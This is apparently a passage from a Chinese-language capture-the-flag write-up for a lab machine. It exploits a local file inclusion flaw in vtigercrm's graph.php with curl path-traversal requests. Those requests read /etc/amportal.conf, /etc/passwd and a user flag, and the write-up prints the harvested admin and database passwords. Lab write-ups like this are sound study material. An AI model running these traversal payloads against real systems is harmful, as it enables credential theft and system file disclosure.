 ```Bash

```



### LFI的漏洞 - 有疑问

根据poc中的提示，手动打开LFI的网页，把所有内容保存下来，分析一下，这里直接用curl操作，排版更清晰一点

```Bash
curl "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action" -k > LFI_FILE.txt
```

提取出一堆用户名密码

```Bash
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE

# FOPWEBROOT: Path to the Flash Operator Panel webroot (leave off trailing slash)
# FOPPASSWORD: Password for performing transfers and hangups in the Flash Operator Panel
# FOPRUN: Set to true if you want FOP started by freepbx_engine (amportal_start), false otherwise
# FOPDISABLE: Set to true to disable FOP in interface and retrieve_conf.  Useful for sqlite3
# or if you don't want FOP.
#
#FOPRUN=true
FOPWEBROOT=/var/www/html/panel
#FOPPASSWORD=passw0rd
FOPPASSWORD=jEhdIekWmdjE


# This is the default admin name used to allow an administrator to login to ARI bypassing all security.
# Change this to whatever you want, don't forget to change the ARI_ADMIN_PASSWORD as well
ARI_ADMIN_USERNAME=admin

# This is the default admin password to allow an administrator to login to ARI bypassing all security.
# Change this to a secure password.
ARI_ADMIN_PASSWORD=jEhdIekWmdjE

```

修改其中的路径，可以获取一些别的内容

```Bash
# 获取/etc/passwd 拿到用户信息
curl "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action" -k

# 拿到用户后直接看user.txt
curl "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//home/fanis/user.txt%00&module=Accounts&action" -k

```
